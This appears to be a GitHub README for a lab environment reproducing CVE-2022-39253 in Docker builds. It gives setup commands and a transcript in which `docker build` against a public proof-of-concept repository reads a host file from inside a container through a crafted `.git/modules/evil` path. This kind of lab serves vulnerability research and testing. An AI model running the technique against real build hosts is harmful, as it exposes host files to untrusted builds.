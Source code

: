# containerd CVE-2022-39253

* dqd:
  * ssst0n3/docker_archive:cve-2022-39253 -> ssst0n3/docker_archive:cve-2022-39253_v0.1.0
  * ssst0n3/docker_archive:cve-2022-39253_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2022-39253 -> ssst0n3/docker_archive:ctr_cve-2022-39253_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2022-39253_v0.1.0

## usage

```shell
$ cd vul/cve-2022-39253
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
```

### reproduce

```shell
$ ./ssh
root@localhost:~# echo "*************escaped*************" > /tmp/escaped
root@localhost:~# docker build https://github.com/ssst0n3/docker-cve-2022-39253-poc.git#main
Sending build context to Docker daemon  247.3kB
Step 1/4 : FROM busybox
latest: Pulling from library/busybox
90b9666d4aed: Pull complete 
Digest: sha256:f85340bf132ae937d2c2a763b8335c9bab35d6e8293f70f606b9c6178d84f42b
Status: Downloaded newer image for busybox:latest
 ---> 6d3e4188a38a
Step 2/4 : COPY / /
 ---> d2a1613a2428
Step 3/4 : RUN ls -lah /.git/modules/evil/objects/host
 ---> Running in d4e807cddf99
-rw-r--r--    1 root     root          34 Jul 16 12:35 /.git/modules/evil/objects/host
Removing intermediate container d4e807cddf99
 ---> 09be27dde416
Step 4/4 : RUN cat /.git/modules/evil/objects/host
 ---> Running in fe5bc95688a6
*************escaped*************
Removing intermediate container fe5bc95688a6
 ---> f64f275435a2
Successfully built f64f275435a2
```


### env details

```shell
$ ./ssh
root@localhost:~# apt list --installed |grep "git/now"

WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

git/now 1:2.34.1-1ubuntu1 amd64 [installed,local]
root@localhost:~# docker --version
Docker version 20.10.19, build d85ef84
```

## build

```shell
make all DIR=vul/cve-2022-39253
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2022-39253_v0.1.0
```
